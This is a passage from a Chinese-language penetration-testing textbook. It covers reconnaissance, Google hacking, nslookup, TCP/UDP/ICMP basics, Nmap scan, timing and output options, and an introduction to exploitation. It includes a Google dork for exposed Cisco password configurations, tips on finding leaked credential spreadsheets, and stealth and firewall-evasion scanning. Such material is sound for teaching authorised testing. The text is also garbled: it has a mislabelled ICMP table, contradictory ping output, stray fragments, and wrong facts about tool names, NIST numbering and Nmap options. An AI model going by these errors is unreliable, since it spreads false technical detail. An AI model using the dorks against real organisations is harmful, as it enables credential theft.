侦察阶段的主要目标是尽可能发现关于目标组织的信息。需要确定的一些事项如下：

- 组织的结构。这包括关于部门和组织内各个团队架构图的详细信息。
- 组织的数字基础设施。这包括所有设备的 IP 空间和网络拓扑。
- 用于软件和硬件的各种技术。
- 所有员工的电子邮件地址。
- 组织的商业伙伴。
- 组织的各种物理位置。
- 任何可用的电话号码。

### 可信代理

可信代理是聘请道德黑客团队为组织渗透测试的人。他们通常是组织的代表。他们为道德黑客团队提供指南，不对组织的其余部分透露有关渗透测试的信息。

现在让我们了解作为道德黑客可以如何开始侦察过程。

### 从目标网站开始

通过从其网站收集信息可以创建目标画像，因为从一开始，那里就是一个巨大的信息宝库。例如，许多组织网站公开显示其组织层级结构以及关键领导人的简介。这些信息应被作为创建目标画像的基础。如何做呢？组织领导者的可用信息可以进一步用于在社交媒体网站上了解关于他们的更多信息，并在以后执行社会工程。然而，这应该受到交互规则的支持。

组织网站的一个非常实用的部分是工作机会或职业发展页面。此页面可以提供有关组织所用技术的详细信息。例如，如果有一个 Linux 系统管理员的空缺，且要求包括对 Red Hat Linux 发行版的知识，那么你可以确定该组织拥有使用 Red Hat 版本的 Linux 服务器。此外，如果运行如 Windows Server 2000 或 2003 等技术的服务器有系统管理员空缺，这几乎会引起道德黑客的注意，因为这些是更容易受到攻击的操作系统。

每个组织网站都必须检查网页邮箱 URL，因为大多数网页邮箱 URL 的语法为 `webmail.domainname.com`。如果该 URL 引导你进入 Outlook Web Access 登录页面，你就可以确定后端在使用 Microsoft Exchange 服务器处理电子邮件。或者，如果显示 Gmail 登录页面，你就知道电子邮件服务已外包给 G Suite，并将处于交互规则定义的限制之外。在开始交互之前设定边界非常重要。如果道德黑客团队对越界有疑问，他们应该在进行任何交互之前始终咨询可信代理。

### 网站镜像

有时，下载整个目标网站并进行离线评估会更高效。可以在离线副本上运行一组自动化工具来获取相关信息，或者这仅仅可以帮助保留一个离线副本，以防组织对在线网站进行更改。Kali Linux 拥有诸如 `wget` 命令之类的命令行工具，它可以复制网站的所有 HTML 和 CSS 文件并将它们本地存储在你的硬盘硬盘上。`wget` 工具在 Kali Linux 中默认可用且非常易于使用。你可以使用以下命令复制所有的 HTML 和 CSS 文件。注意，此命令不会复制任何代码，例如在服务器端使用的 PHP 脚本。

```
```


```wget -m -p -E -k -K -np http://example.com```

在上述示例中，`wget`命令后面跟着几个选项和开关。你可以使用 Kali Linux 中的命令`man`页（帮助页）来了解更多关于这些选项的功能。

```man wget```

这将弹出该命令的帮助页，你可以使用方向键导航浏览每个选项的描述和功能。帮助页将为你提供上述示例中所用选项的如下描述：

- `-m` 启用镜像网站的设置
- `-p` 先决或页面，此选项确保下载所有文件，包括图像文件
- `-E` 扩展名，此选项确保所有下载的文件都以`.html`扩展名存储
- `-k` 此选项将链接转换为适用于本地查看
- `-K` 此选项创建原始文件的备份，并带有`.orig`扩展

从网站复制的文件将存储在与网站同名的文件夹中。当下载包含`PHP`的页面时，可能会出现错误。这发生在前端页面过度依赖服务器端脚本来显示内容时。此类页面无法通过工具访问。

在下载文件后，将它们限制在道德黑客团队进行评估是非常重要的。再次在线发布此类网站可能会违反版权法。

## Google 搜索

Google 提供的高级搜索运算符可以很大程度上用于侦察。你可以在以下 URL 找到 Google 高级搜索。

```https://www.google.com/advanced_search```


这将打开一个网页。工具的上半部分帮助你通过包含或排除术语来查找网页。工具的下半部分帮助你让搜索更具针对性。道德黑客可以使用此工具中所有可能的字段组合来根据需求创建搜索字符串。使用多个输入字段会使搜索变得复杂但更准确。

让我们逐一查看 Google 高级搜索工具中的可用字段。

### 所有这些

此输入可用于查找包含你在字段中输入的所有词的网页。这些词在网页上的位置并不重要，也不要求其顺序与你输入的顺序相同；只要它们在页面上即可。

要执行此搜索，在“所有这些”输入字段中输入任意数量的词，它会被 Google 引擎转换为搜索字符串。

### 精确词汇或短语

在此字段中提供词汇或短语输入将导致 Google 搜索包含与其输入顺序完全相同的词汇或短语的网页。这种搜索方式与“所有这些”搜索的作用完全相反。该搜索通过将你所有的词或短语放在引号内来处理搜索字符串，将其视为单个字符串。

### 任意这些

在此字段中提供的输入将提供“或”查询结果。Google 将查找包含你在该字段中输入的任何一个词的网页。Google 搜索查询在词之间放置 `OR` 连接符。

在发送搜索查询之前你输入的内容。

## 不包含这些词 (None of These Words)

这与“包含这些任何词”搜索参数相反。Google 搜索将排除包含你输入的单词的网页，并显示所有不包含其中任何一个单词的网页。Google 搜索在发送搜索查询之前，会在你输入的单词前加上一个减号。

## 数字范围于 (Numbers Ranging From)

此搜索字段包含两个输入框。无需多说，你可以使用这两个输入框输入数字范围。通过使用英里、厘米甚至货币等单位，可以进一步改进此搜索。如果你想使用普通的 Google 搜索方法进行相同的搜索，需要在两个数字之间使用两个句号隔开，这将告诉 Google 这是一个范围。该搜索的结果将包含你指定的范围的网页。

## 语言 (Language)

当你从下拉菜单中选择特定语言时，搜索结果将包含你所选语言的网页。此选项对于道德黑客针对特定地区的组织进行攻击非常有用。例如，如果目标组织是一家法国公司，你可以选择法语，这将有助于你在接下来的阶段进行渗透测试。

## 地区 (Region)

选择特定地区将获得托管在特定地区的网页搜索结果。如果你不在语言下拉菜单中指定语言，则该地区的搜索结果将提供不取决于该地区使用的主要语言的网页。如果你同时提供语言和地区的输入，可以进行更具针对性的搜索。

## 最后更新 (Last Updated)

此字段中提供的时间会缩小搜索结果，使其仅包含在指定时间范围内修改过的网页。这可以帮助你排除旧网站，并确保你在某个组织发生关键事件后获取网页结果。例如，如果某个特定日期有关于某组织与另一组织合并的新闻，或者他们在某个特定日期切换了更新技术，你可以指定时间戳，以获取事件发生后关于该组织的所有可能信息。

## 站点或域名 (Site or Domain)

此输入字段对于缩小搜索结果可能证明非常有用。例如，如果你的搜索是关于一个政府性组织，你可以指定 `.gov` 域名，将结果缩小为仅显示托管在 `.gov` 域名上的网站。你可以在普通的 Google 搜索方法中通过搜索限制符来执行相同的搜索。例如，如果你希望搜索结果限制在 `facebook.com` 内，你可以如下所示使用搜索限制符：`facebook.com`。

## 安全搜索 (Safe Search)

安全搜索有两个可用选项。

- 显示最相关结果
- 过滤显性内容

如果你使用显性过滤选项，包含性暗示内容的网页将被过滤掉。相反，选择最相关结果将不会过滤掉包含性暗示内容的网页。

## 出现的词 (Terms Appearing)

此选项可将你的搜索查询引导到网页的特定部分。不言而明，如果你选择“页面上的任何位置”选项，将不会设置任何实际限制，搜索将针对整个网页。

让我们查看网页中可以作为目标获取结果的不同部分。

### 在页面标题中 (In the title of the page)

正如短语所示，此搜索将使你的搜索仅集中在网页的标题上。页面标题是网页的简短描述，嵌入在浏览器的标签页中。此搜索可以通过在搜索框中使用 `intitle:` 算符通过普通搜索方法进行。

### 在页面正文中 (In the text of the page)

当你使用此限制器时，你的 Google 搜索将仅针对文本内容的网页进行目标，并排除图像、视频、文档等其他内容。它还将排除页面标题。然而，如果网页上使用超链接引用了图片，则该超链接将以文本格式返回。此搜索可以通过在搜索框中使用 `intext:` 算符通过普通搜索方法进行。

### 在页面 URL 中 (In URL of the page)

此搜索将你的搜索字符串限制在网页的统一资源定位符（URL）部分。URL 是出现在网络浏览器地址栏的网页地址。此搜索可以通过在搜索框中使用 `inurl:` 算符通过普通搜索方法进行。

### 在指向页面的链接中 (In links to the page)

这将返回指向你搜索准则的其他网页的结果。

## 阅读程度 (Reading Level)

此选项的搜索结果将根据这些页面上单词的复杂程度返回网页结果。

让我们查看此搜索选项下的不同可用选项。

### 不显示阅读程度 (No reading level displayed)

这将确保你的搜索标准完全不应用任何阅读程度。

### 用阅读程度标注结果 (Annotate results with reading level)

这将显示结果，但所有网页都将显示该页面文本的阅读程度。

Google 算法并不像专为语言精细搜索开发的其它工具那样优秀，但它可以将阅读程度分为三种类型：基础、中级和高级。如果你针对目标的阅读程度进行渗透测试，此选项将非常有用。例如，如果你的目标是一个基于研究的组织，你可以将阅读程度保持为高级，这样你就不会获得不必要的简单网页搜索结果。

## 文件类型 (File Type)

这是道德黑客进行侦察的另一个非常有用的选项。此搜索参数帮助你限制搜索结果，显示包含特定文件类型（如 `pdf`、`docx`、`ppt` 等）的网页。你可以在此搜索标准中使用多种文件类型来获取大量信息。例如，用户名称和密码通常存储在具有 `xls` 或 `xlsx` 扩展名的 excel 文件中。如果你足够幸运，在搜索标准中使用 excel 文件扩展名可能会返回包含用户敏感信息的文件。

## 使用权 (Usage Rights)

这是道德黑客进行侦察的另一个非常有用的选项。此搜索标准将你的搜索结果限制在基于版权的内容上。如果你选择“免费使用、共享或修改”选项，搜索结果将具有可重复的内容。如果你在搜索中选择“商业”，它将返回允许商业使用的网页。

## 汇总高级搜索 (Compiling a High-Level Search)

普通用户可以使用 Google 高级搜索的单个字段来获取结果，但作为道德黑客，你可能希望使用字段组合来获取结果。例如，让我们假设 Hello International 这家美国公司在一个月前与另一家公司合并，并要求你的黑客团队进行渗透测试。在这种过渡期间，会创建新文档，公司的组织架构可能会发生变化。你可以使用的可能组合之一是：

- 确切词或短语：Hello International
- 语言：英语
- 地区：美国
- 最后更新：一个月前
- 站点或域名：`helloworld`
- 文件类型：`ppt`

你可以通过添加或删除更多字段来进一步精炼结果。你可以将文件类型更改为 `PDF` 查看是否有发布的 PDF 文档。

### Google 黑客 (Google Hacking)

计算机安全专家 Johnny Long 在 2000 年初开并普及了 Google 黑客。这是一种结合 Google 搜索引擎中的算符并返回有用信息的技术。该技术使用特定的表达式并查询 Google 数据库以获取互联网上提供的所有信息。它增强了我们在 Google 高级搜索部分讨论的搜索。

道德黑客可以创建包含链接选项和高级算符的搜索字符串。查询可以针对工业服务，其他用于获取用户凭据。现在有几本关于 Google 黑客的书籍出版，最著名的是由 Johnny Long 出版的，名为《渗透测试中的 Google 黑客》。

#### Google 黑客数据库 (Google Hacking Database)

有一个 Google 黑客数据库 (`GHDB`) 包含了大量的 Google 黑客查询搜索字符串。你可以在 URL `http://www.hackersforsecurity.org/ghdb/` 找到原始数据库，Offensive Security 公司也维护着 Google 黑客数据库，地址为 `http://www.offensive-security.com/community-projects/google-hacking-database/`，它是原始数据库的扩展。

由 Offensive Security 维护的 Google Hacking Database 包含超过 3500 种攻击手段，分为 14 大类。其中超过 160 个攻击字符串可用于获取包含用户名和密码的文件。

让我们来看一个用于返回思科（Cisco）密码的示例搜索字符串。

```
```


Enable password j secret "current configuration" -intext: the

```
运行此搜索字符串，你将在 Google 上获得超过百万条搜索结果，其中大多数结果将包含与密码相关的文件。你可以进一步向此字符串添加额外的运算符来自定义你的搜索，例如将将其聚焦于特定领域，如下：
```

```
enable password j secret "current configuration" -intext:the site:helloworld.com
```

## 社交媒体

在侦察阶段，如果忽略社交媒体上丰富的海量信息，那将是一种遗憾。如今，社交媒体已成为每个人日常生活的一部分。这使得社交媒体成为渗透测试生命周期中侦察阶段的巨大乐场。人们在物理世界中激烈地保护自己的信息，但在 Facebook、Twitter、Instagram、LinkedIn 等社交媒体平台上却毫无顾忌地发布这些信息。这对于社会工程学非常有帮助。

`LinkedIn` 已证明在寻找组织架构图方面非常有用。`LinkedIn` 是一个专业人士联系的社交媒体平台，它通常有助于伦理黑客创建目标组织内员工的完整画像。`LinkedIn` 上不公显示邮箱地址，你可能需要利用社会工程学来收集这些信息。如果约定规则允许社会工程学，组织的前员工可以成为良好的信息来源。此外，组织现在开始在 `LinkedIn` 上发布招聘机会，这有助于伦理黑客识别组织内部使用的技术。

# 服务器查询

域名服务器是域名系统的一部分，为特定网站提供 DNS 查询。域名服务器通常是公开的。在 Kali Linux 终端上运行以下命令将返回系统的本地域名服务器。

`nslookup`

命令后会跟有一个大于符号 `>`，这表示终端正在等待你的输入。你可以输入 `google.com` 来获取 `google.com` 的域名服务器和 IP 地址。

```
> www.google.com
```

这将返回关于 `Google.com` 域名服务器和 IP 地址的权威和非权威信息。

你可以通过在大于符号提示符前输入 `exit` 来退出此工具。

```
>exit
```

`nslookup` 命令将使用你本地系统的域名服务器或互联网服务提供商（ISP）的域名服务器来显示结果。你也可以指定特定的服务器来查询某个域名的 DNS。下方的命令所示：

```
nslookup
>server (例如使用 1.1.1.1，这是 Cloudflare 的服务器)
```

`nslookup` 命令也可用于获取其他 DNS 相关的信息。例如，如果你想获取某个域名的邮件服务器，可以使用以下命令。

```
nslookup
>set type = MX
>google.com
```

这将返回 `google.com` 的所有邮件服务器。

## 不同类型的 DNS 记录

# 第五章

## 扫描

在本章中，我们将详细学习渗透测试生命周期中的第二阶段，即“扫描”。此阶段接收第一阶段侦察中发现的所有结果作为输入。在第一阶段收集的关于员工和信息系统的信息将进一步扩展，以描绘出组织基础设施的物理和逻辑视图。如前所述，当伦理黑客觉得需要发现更多信息来帮助扫描阶段的过程时，他们可以随时返回侦察阶段。

扫描阶段的主要目标是获取与目标组织网络和信息系统相关的特定信息。在整个阶段中，伦理黑客需要关注获取有关活动主机、设备类型（笔记本电脑、台式电脑、路由器、手机等）、操作系统、软件、提供的面向外部的服务（SMTP、FTP、Web 应用等）的信息。如果可能，他们甚至应该尝试寻找漏洞。在扫描阶段发现的漏洞被称为“唾手可得的果实”。扫描有很多可用的工具，但我们将在本章重点关注如 `Nmap`、`HPing` 等有效工具。扫描阶段的目标是获得可以传递到渗透测试生命周期下一阶段的信息。

### 网络流量

对网络流量有基本的理解，对于理解扫描阶段使用的过程和工具至关重要。通过各种方法在各种计算机系统之间发生的电子通信被称为网络流量。有线以太网和无线以太网是如今最流行的联网方式。在本章中，你将接触防火墙、端口、互联网协议，如网控制消息协议（ICMP）、用户数据报协议（UDP）和传输控制协议（TCP）。

## 防火墙与端口

任何组织保护网络和信息系统最常见的实现是在内部网络和外部网络（通常是互联网）之间放置防火墙。防火墙是软件或硬件，具有作为网络守门员的规则。防火墙中定义了访问控制规则来监控入站和出站流量（称为 egress）。满足这些访问控制规则的流量允许通过防火墙，而其余流量将被丢弃或删除。这是通过打开和关闭防火墙上的端口来允许或拒绝流量实现的。

端口可以定义为计算机之间相互通信的通信通道。计算机系统拥有 65,535 个端口。

## IP 协议

简单来说，协议意味着应用于现实系统和网络中的规则。高级官员或政治家有工作人员……计算机系统遵循了大量的协议，但在本章中，我们将重点关注其中最重要的三个协议：TCP、UDP 和 ICMP。

### TCP

传输控制协议是网络中最重要的协议之一。`TCP` 是一种基于连接的通信协议。这意味着连接两侧的计算机系统会相互确认，并且它们可以接收对方的消息。

过程在整个会话期间持续，以便一个系统发送的所有数据包都能被另一个系统接收，失败的数据包可以重新发送。

### UDP

用户数据报协议（User Datagram Protocol）与 `TCP` 连接相比，负载更低。如果说 `TCP` 协议类似于在会话中进行双向通信的电话，那么 `UDP` 协议更像是一个电台广播，通信发送出去时不需要发送者或接收者对网络数据包进行任何验证。

电台广播：今天多云，可能会下雪。

这种广播是通过空气发送的，接收者没有收到并不要紧。如果接收者未能收到数据包，他们不会请求重传。简而言之，在 `UDP` 通信中，接收端不会确认它们在传输过程中接收还是丢弃了数据包。

对于不需要持续检查数据包是否正确到达或是否按特定顺序到达的服务，`UDP` 通信方法更受青睐。鉴于使用 `UDP` 协议的应用相比开销更看重速度，`UDP` 主要用于流媒体音乐或视频的应用。

### ICMP

互联网控制管理协议（Internet Control Management Protocol）从设计上来说是网络的一种健康和维护协议。该协议检查给定网络上的设备是否正常运行。大多数用户从未使用过直接处理 `ICMP` 的应用程序，但 `Ping` 和 `Traceroute` 等程序是这一规则的例外。`ICMP` 与 `UDP` 和 `TCP` 的另一个巨大区别是它不携带任何用户数据。`ICMP` 在网络中不同计算机系统之间传输系统消息。

`ICMP` 头部包含的每个 `ICMP` 消息都有特定的代码和类型。这些代码要么向互联网上的各种设备提问，要么提供信息。代码和类型设置可以帮助伦理黑客确定目标网络上存在哪些设备。

让我们查看 `ICMP` 头部中的这些类型和代码。

| 类型 (Type) | 代码 (Code) | 说明 (Description) |
|---|---|---|
| 0(回显响应) | 0 | 回显响应 |
| 8(目的不可达) | 0 | 目标网络不可达 |
| 1 | | 目标主机不可达 |
| 2 | | 目标协议不可达 |
| 3 | | 目标端口不可达 |
| 6 | | 目标网络未知 |
| 7 | | 目标主机未知 |
| 9 | | 网络被管理性禁止 |
| 10 | | 主机被管理性禁止 |
| 13 | | 通信被管理性禁止 |
| 8(回显请求) | 0 | 回显请求 |

## PING

`Ping` 是用户直接接触的的少数基于 `ICMP` 的应用程序之一。`ping` 命令将发送类型 8且代码 0 的数据包，表示该数据包是一个回显请求。接收此数据包的系统将立即响应类型 0 代码 0 的数据包，即回显响应。成功的 `ping` 表示被 `ping` 的系统在网络上是存活的，因此是一个存活主机。如果你在 Windows 命令行中使用 `ping` 命令，它默认会发送四次请求，而 Linux 终端上的 `ping` 命令将一直持续，直到被用户中断。

让我们来看一个成功和失败的 `ping` 命令。

如果被 `ping` 的主机是存活的 (Live)

```
Ping 192.168.1.1

Pinging 192.168.1.1 with 32 bytes of data:

Reply from 192.168.1.1: bytes=32 time=2ms TTL=64

Reply from 192.168.1.1: bytes=32 time=1ms TTL=64

Reply from 192.168.1.1: bytes=32 time=1ms TTL=64

Reply from 192.168.1.1: bytes=32 time<1ms TTL=64
```

如果主机不可达 (unreachable)

```
Ping 192.168.1.200

Pinging 192.168.1.200 with 32 bytes of data:

Reply from 192.168.1.129: Destination host unreachable.

Reply from 192.168.1.129: Destination host unreachable.

Reply from 192.168.1.129: Destination host unreachable.
```


Reply from `192.168.1.129`: Destination host unreachable.

```
Ping statistics for 192.168.1.200:

Packets: Sent 4, Received 4, Lost 0 (0% loss)
```

### Traceroute

Traceroute 利用 `ICMP` `ping` 命令来确定启动追踪的计算机系统与目标系统之间有多少个网络设备。`traceroute` 命令通过操纵网络数据包的存活时间（Time To Live，简称 `TTL`）来工作。`TTL` 表示同一个网络数据包在过期之前，可以被网络上的下一个主机再次广播的次数。该命令为数据包分配一个初始 `TTL` 值为 `1`，表示该数据包只能被启动系统和目标系统之间的某一个设备广播。接收设备将返回一个类型 `11` 代码 `0` 的 `ICMP` 数据包，表示时间超时，且数据包已记录。发送者随后将数据包的 `TTL` 加一并发送下一组数据包。数据包根据其时间到达网络上的下一跳。接收设备将再次返回一个类型 `11` 代码 `0` 的 `ICMP` 数据包，表示时间超时，且数据包已记录。发送者随后将数据包的 `TTL` 加一并发送下一组数据包……

光谱，而光谱的另一端可以拥有最复杂的 `Nmap` 命令，根据 `Nmap` 命令中定义的选项和开关，该命令将执行耗长的扫描。

在接下来的章节中，我们将详细介绍 `Nmap` 中使用的几个选项，以便你更好地理解这个帮助在渗透测试活动中获取目标详情的扫描工具。这些章节将让你对 `Nmap` 这一强大工具有坚固的理解。我们将涵盖扫描、计时、目标和输出等选项。

# 扫描选项

`-s` 是 `Nmap` 命令中使用的小写 `s` 前缀，用于根据用户定义的在在目标上执行特定类型的扫描。小写 `s` 后面跟着一个大写的 `S`，这有助于识别扫描的类型。使用不同的扫描类型可以帮助伦理黑客规避目标网络上设置的防火墙等安全系统的检测。

## `-sS` 隐匿扫描 (Stealth Scan)

即使没有指定扫描选项，`Nmap` 扫描也会选择隐匿扫描。或者，你也可以通过在 `Nmap` 命令后添加 `-sS` 选项来主动启动隐匿扫描。隐匿扫描将与目标系统建立 `TCP` 连接但不会完成三次握手。发起系统向目标系统发送一个 `SYN` 包，目标系统将回复一个 `SYN/ACK` 包。然而，发起系统不会回传 `ACK` 包，由于通信信道未建立，该连接将保持完全开放状态。大多数现代系统在等待 `ACK` 包一段时间后会自动关闭连接。然而，较旧的系统可能不会关闭连接，这种扫描可以完全不被检测到，从而使扫描的噪音更小。如今大多数大多数系统都能检测到隐匿扫描，但这不应该让伦理黑客放弃使用它的积极性，因为与大多数其他扫描技术相比，检测隐匿扫描仍然更加困难。

## `-sT` TCP 连接扫描 (TCP Connect Scan)

`TCP` 连接扫描会完成三次握手，并与目标系统建立正式的连接。因此，与隐匿扫描相比，它可以收集到更多的信息。发起系统向目标系统发送一个 `SYN` 包，目标系统将回复一个 `SYN/ACK` 包。然后，发起系统向目标系统发送一个 `ACK` 包并建立通信信道。目标网络上的安全系统大多可以记录这种扫描，但因为它能够提供大量信息，所以它仍然被广泛使用。

## `-sU` UDP 扫描

`UDP` 扫描用于分析目标系统上的 `UDP` 端口。与 `TCP` 端口相反，`UDP` 扫描期望从关闭的 `UDP` 端口接收目标系统的回复。如你所知，当数据包发送到系统的 `UDP` 端口时，不会收集到响应。然而，如果包对目标系统有响应，你就可以断定 `UDP` 端口是开放的。如果你没有收到响应，`UDP` 端口可能开放，也可能关闭或被防火墙过滤。

## `-sA`

`-sA` 扫描是 `ACK` 扫描，用于理解 `TCP` 端口是否被过滤。该扫描通过发送 `ACK` 标志与目标系统建立通信。理想情况下，连接是通过 `SYN` 标志发起的，但此 `ACK` 标志可以伪装成对目标系统内部请求的 `ACK` 响应，从而绕过目标系统的防火墙。即使这种扫描收到 `RST` 响应，也表明目标端口未被过滤。如果没有收到响应，或者收到了代码为 `1, 2, 3, 9, 10` 或 `13` 的 `ICMP` 响应，则意味着端口被过滤了。

# 计时选项 (Timing Options)

正如我们已经学过的，如果不指定，`Nmap` 扫描使用的默认计时选项是 `-T3` 或正常模式。`Nmap` 中有一项功能，用户可以指定要使用的计时选项并覆盖默认选项，以便扫描速度比正常速度更快或更慢。计时模板启用了多个设置，但最有用的设置是允许扫描和并行处理之间存在延迟的。不同的计时模板可以使用 `scan_delay`、`max_scan_delay` 和 `max_parallelism` 选项来解释。我们可以使用这些选项来测量每个计时模板，以便为扫描目标网络选择合适的计时模板。`scan_delay` 选项将目标系统的探测次数设置为最小探测数。而 `max-scan-delay` 指的是扫描器在有关目标系统和网络延迟增长时被允许的最大时间。如果你问为什么这很重要，是因为某些系统仅按特定速率响应探测。使用这些选项，`Nmap` 将自动调整其探测以满足目标系统的要求。`max_parallelism` 选项允许 `Nmap` 逐个、以串行或并行方式发送探测。

让我们逐一查看适用于 `Nmap` 扫描的各种计时模板。

## `-T0` 旁执模式 (Paranoid)

`-T0` `Paranoid` 扫描用于目标网络链路较慢或你可以冒被检测检测的情况。该扫描以串行方式工作，每 5 分钟暂停一次。然而，在此计时模板中忽略了 `max_delay` 设置，因为基础 `scan_delay` 的值比默认值大。

## `-T1` 狡猾模式 (Sneaky)

`-T1` 也作为 `--timing sneaky` 使用，比旁执模式稍快一点，同时保持隐匿状态。该扫描也以串行扫描目标系统，但将延迟减少到约 15 秒，即使该值仍高于 `max_delay`，因此第二个值被忽略了。

## `-T2` 礼貌模式 (Polite)

`-T2` 也作为 `--timing polite` 使用，与 `-T0` 和 `-T1` 相比速度提高，是最后一个使用串行技术的计时模板。该扫描的 `scan_delay` 值为 400 毫秒，因此它使用了默认设置为 1 秒的 `max_delay` 选项。

## `-T3` 正常模式 (Normal)

`-T3` 也作为 `--timing normal` 使用，与之前的模式相比速度有所提高，并且它是 `Nmap` 的默认计时模板。该扫描的 `scan_delay` 值为 400 毫秒，因此它使用了默认设置为 1 秒的 `max_delay` 选项。

## `-T4` 激进模式 (Aggressive)

`-T4` 也作为 `--timing aggressive` 使用，在扫描目标系统时发送并行探测。`scan_delay` 设置为 0 秒，`max_scan_delay` 设置为 10 毫秒。`max_scan_delay` 值小于十毫秒的扫描会产生错误。

## `-T5` 疯狂模式 (Insane)

`-T5` 也作为 `--timing insane` 使用，是 `Nmap` 扫描中最快的预定义计时模板。该模板使用并行扫描，`scan_delay` 设置为 0 秒，`max_scan_delay` 设置为 5 毫秒。正如激进扫描中提到的，由于 `max_scan_delay` 值小于 1 秒，疯狂扫描也会产生错误。

# 目标 (Target)

目标是 `Nmap` 命令字符串中最重要的部分之一。如果你指定了错误的目标，可能会扫描到空的 `IP` 空间或不符合规则的系统。有多种方法可以设置 `Nmap` 扫描目标。我们将学习其中两种方法：`IP` 地址范围和扫描列表。

属于 `C` 类的地址范围。

```
nmap 10.0.2.1-255
```

你也可以使用无类域间路由（`CIDR`）寻址方法并使用 `/24` 后缀来执行相同的扫描。`CIDR` 是一种快速指定 `IP` 地址范围的极佳方法，但它超出了本书的讨论范围。

```
nmap 10.0.2.1/24
```

如果 `IP` 地址集较小，你可以定义一个较小的范围作为扫描目标。例如，如果你想扫描某个范围内的前 50 个 `IP` 地址，可以使用以下命令。

```
nmap 10.0.2.1 -50
```

## 扫描列表

你也可以将文本文件作为 `Nmap` 扫描命令的输入。该文本文件将包含作为目标系统的 `IP` 地址列表。如果你假设以下 `IP` 地址存储在 `target.txt` 文件列表中：

- `10.0.2.1`
- `10.0.2.15`
- `10.0.2.55`
- `10.0.2.100`

`Nmap` 命令的语法将如下所示。

```
nmap -iL target.txt
```

# 端口选择

`-p` 选项可以在 `Nmap` 命令结构中使用，用于指定要扫描的端口。你可以使用连字符来指定端口范围，也可以用逗号分隔的值指定单个端口。

```
nmap -sS -p 1-100
nmap -sU -p 53, 25, 143, 80
```

或者你也可以像下面所示结合使用两者。

```
nmap -sS -p 1-100, 53, 25, 143, 80
```


# 输出选项

默认情况下，`Nmap` 命令的扫描结果将打印在屏幕（即终端窗口）上。然而，将输出打印在屏幕上并不总是方便的，作为一名伦理黑客，你可能希望将其保存到文件中。你可以使用管道 `|` 命令将扫描输出重定向到文件。不过，`Nmap` 扫描内置了许多选项可以将输出重定向并保存到文件中。让我们逐一查看这些选项。

## -oN 正常输出

此输出将创建一个存储输出内容的普通文本文件。该文本文件可以用于输出评估，也可以作为其他程序的输入。

```
nmap -oN output.txt 10.0.2.111
```

## -oX 可扩展标记语言 (XML) 输出

许多应用程序都使用 XML 文件作为输入，因此此选项对于以 XML 格式存储输出非常有用。

```
nmap -oX output.txt 10.0.2.111
```

## -oS 脚本小子 (Script Kiddie) 输出

脚本小子输出文件不用于严谨的渗透测试，但用起来很有趣。此语法生成的输出文件不应用于工业级渗透测试。

```
nmap -oS output.txt 10.0.2.111
```

## Nmap 脚本引擎 (NSE)

为 `Nmap` 构建自定义脚本超出了本书的范围，但你始终可以使用预配置的 `Nmap` 脚本来运行渗透测试。你可以在以下 URL 找到一组预配置的 `Nmap` 脚本。

```
https://nmap.org/nsedoc/
```

例如，你可以使用该脚本获取目标系统的 NetBIOS 和 MAC 地址信息。你可以在 `Nmap` 命令后跟 `--script` 标志并加上脚本名称，如下所示使用：

```
nmap --script nstat.nse 10.0.2.111
```

作为一名伦理黑客，你还希望你的脚本数据库始终保持更新。建议在每次新的渗透测试任务之前更新 `Nmap` 脚本数据库。你可以使用以下命令来执行。

```
nmap --script -updateddb
```


# 第六章
## 漏洞利用 (Exploitation)

在本章中，我们将学习渗透测试生命周期中的第三阶段，即漏洞利用。我们的目标是让你理解攻击类型（attack types）与攻击向量（attack vectors）之间的根本区别。你将学习一些可以用于利用的 Kali Linux 工具。你还将学习一个名为 `Metasploit` 的非常重要的利用工具。

美国国家标准与技术研究院 (NIST) 特别出版物 `80030` 附录 B 第 B-13 页将漏洞定义为信息系统、系统安全、内部过程或实现中可以被攻击者利用的弱点。这个定义涵盖了广泛的利用范围，并需要更深入的解释。错误导致漏洞。漏洞可以在信息系统的多个地方发现，也可以是日常使用或管理信息系统的人所犯的人为错误。

### 漏洞扫描

- 存在于信息系统内部或外部。
- 可能是某些糟糕软件代码的一部分。
- 通过错误的配置产生。
- 完全位于通过社交渠道创建的技术基础设施之外。

漏洞（Vulnerability）与弱点（weakness）是同义词。整个利用过程仅仅是利用信息系统中的弱点来获取访问，并通过拒绝服务使其对真实用户不可用。攻击者在利用系统时面临唯一限制就是系统本身。

### 信息的收集

当你不仅了解攻击的类型，还了解攻击手段时，你就能正确理解利用。

### 本地利用 (Local Exploits)

需要你对计算机系统、服务器、手机具有访问权限的利用被称为本地利用。本地访问也可以通过远程会话建立。换句话说，如果伦理黑客通过 `SSH`、`RDP` 会话或 `VPN` 登录目标系统，则该利用是本地的。本地利用可以提升你在系统中的权限、破坏服务、上传恶意文件或从系统中提取信息。请注意，本地利用并不一定由伦理黑客亲自执行。伦理黑客可以使用社交工程和其他欺骗手段诱骗本地登录的用户代表他们执行利用。一个常见的例子是嵌入普通 `PDF` 文档或 `Microsoft Excel` 表格中的木马后门。插入公司系统的员工姓名 `USB` 驱动器也可以用于执行本地利用。本地利用的可能性仅限于伦理黑客或渗透测试人员的想象力。当由于无法连接到目标系统时，通常会部署本地利用。

### 攻击向量与攻击类型

攻击向量和攻击类型之间存在细微的界限。这两个术语经常被视为同义词，但合理的澄清有助于理解如何对攻击分类。通常情况下，向量是如 `a` 的传输通道，而攻击类型是一个类别。

| 攻击向量 | 攻击类型 |
| :--- | :--- |
| 代码注入 | 病毒、缓冲区下溢、缓冲区溢出、恶意软件 |
| Web 攻击 | 跨站脚本 (`XSS`)、跨站请求伪造 (`CSRF`)、网页篡改、`SQL` 注入 |
| 网络攻击 | 拒绝服务 (`DoS`)、分布式拒绝服务 (`DDoS`)、密码和敏感数据窃取、凭据窃取 |
| 社交工程 | 钓鱼攻击、冒充、针对性钓鱼攻击 |

本地利用系统有成上千种方法，在开始时选择最有效的方法可能有些困难。

`Rapid7` 开发的 `Metasploit` 工具通过开发一个名为 `Searchploit` 的应用程序使其变得简单。`Kali Linux` 让使用该应用程序变得更加简单。你可以在 `Kali Linux` 终端中使用 `searchploit` 来查找系统中的利用程序。

步骤如下：

- 启动一个终端窗口。
- 输入 `searchploit` 命令，后跟最多三个关键词。
- 搜索结果将返回一个在运行 `IIS` Web 服务器并使用 `PHP 5.2.0` 版本的 Windows 系统中具有动态链接库的漏洞。你可以利用此漏洞执行缓冲区溢出，导致主机系统发生拒绝服务。

### 远程利用

